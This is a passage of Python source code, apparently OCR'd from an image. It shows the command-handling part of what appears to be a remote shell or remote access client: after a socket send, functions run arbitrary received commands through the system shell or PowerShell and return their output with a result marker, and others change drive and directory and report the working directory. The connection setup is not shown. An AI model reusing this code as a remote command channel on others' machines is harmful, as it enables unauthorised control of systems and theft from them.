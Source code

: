             client_socket.sendall(struct.pack('<Q', 0))
        except Exception:
            pass

# Execute a shell command and return its output
def execute_command(command):
    try:
        if os.name == "nt":
            proc = subprocess.Popen([
                "powershell.exe", command
            ], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.DEVNULL)
        else:
            proc = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.DEVNULL)
        stdout, stderr = proc.communicate()
        stdout = stdout.decode("utf-8", errors="ignore")
        stderr = stderr.decode("utf-8", errors="ignore")
        output = stdout if not stderr.strip() else stderr
        return output + "\n" + END_RESULT
    except Exception as e:
        return f"Command execution failed: {e}\n{END_RESULT}"

# Change drive (Windows)
def change_drive(command):
    try:
        drive = command.upper()
        if os.name == 'nt' and len(drive) == 2 and drive[1] == ":":
            os.chdir(drive + "\\")
            return f"Changed to {os.getcwd()}\n{END_RESULT}"
        else:
            return f"Invalid drive command.\n{END_RESULT}"
    except Exception as e:
        return f"Failed to change drive: {e}\n{END_RESULT}"

# Change directory
def change_directory(path):
    try:
        os.chdir(path)
        return f"Changed directory to {os.getcwd()}\n{END_RESULT}"
    except Exception as e:
        return f"Failed to change directory: {e}\n{END_RESULT}"

# Print working directory
def pwd_command():
    try:
        return f"{os.getcwd()}\n{END_RESULT}"
    except Exception as e:
        return f"pwd error: {e}\n{END_RESULT}"
